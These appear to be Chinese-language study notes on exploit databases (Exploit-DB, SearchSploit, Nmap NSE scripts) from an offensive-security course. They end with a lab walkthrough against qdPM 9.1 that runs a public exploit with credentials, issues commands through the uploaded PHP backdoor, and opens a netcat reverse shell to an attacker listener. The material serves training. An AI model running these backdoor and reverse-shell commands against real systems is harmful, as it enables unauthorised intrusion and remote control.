 本篇对应教材第12章，主要内容“在线exp库”、“离线exp库”、“漏洞利用”，记录使用工具和命令

## 12.2 在线exp库

网站

```python
https://www.exploit-db.com/
https://packetstormsecurity.com/
https://github.com/
firefox --search "Microsoft Edge site:exploit-db.com"
```

## 12.3 离线exp库

### 12.3.1 MSF

‍

### 12.3.2 SearchSploit

升级库

```python
sudo apt update && sudo apt install exploitdb
```

查看exp库文件

```python
ls -1 /usr/share/exploitdb/
ls -1 /usr/share/exploitdb/exploits
```

搜索制定漏洞exp

```python
searchsploit remote smb microsoft windows
```

拷贝到当前目录

```python
searchsploit -m windows/remote/48537.py
searchsploit -m 42031
```

### 12.3.3 NSE脚本插件

```python
grep Exploits /usr/share/nmap/scripts/*.nse

nmap --script-help=clamav-exec.nse
```

## 12.4 漏洞利用

### 12.4.1 漏洞利用

发现web应用程序

```python
<div class="copyright">
	 <a href="http://qdpm.net" target="_blank">qdPM 9.1</a> <br /> Copyright &copy; 2022 <a href="http://qdpm.net" target="_blank">qdpm.net</a>
</div>
```

exploit-db上搜索“qdPM 9.1”

```python
searchsploit -m 50944
```

```python
python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
nc -lvnp 6666
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
